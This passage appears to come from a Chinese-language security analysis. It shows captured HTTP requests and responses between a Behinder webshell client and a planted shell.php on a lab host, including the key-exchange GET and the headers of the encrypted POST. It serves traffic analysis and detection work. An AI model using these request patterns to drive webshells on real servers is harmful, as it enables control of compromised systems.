 Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html;charset=utf-8

!DOCTYPE html PUBLIC "-//W3C//DTD（此处省略更多字符信息）

#### 2）冰蝎客户端与服务端通信流量

GET请求包

```pacp
GET /shell.php?pass=1 HTTP/1.1

User-Agent: Java/1.8.0_211

Host: 192.168.66.136

Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2

Connection: keep-alive
```

GET返回包

HTTP/1.1 200 OK

Date: Sun, 21 Jul 2019 02:51:55 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Set-Cookie: PHPSESSID=6dclf3mic9i86q7r6snpk34ef1; path=/

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0

Pragma: no-cache

Content-Length: 16

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html

f52eb8c003a3991b

POST请求包

```pacp

POST /shell.php HTTP/1.1

Content-Type: application/octet-stream

Cookie: null;PHPSESSID=6dclf3mic9i86q7r6snpk34ef1; path=/

Cache-Control: no-cache

Pragma: no-cache

User-Agent: Java/1.8.0_211

Host: 192.168.66.136

Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2

Connection: keep-alive

```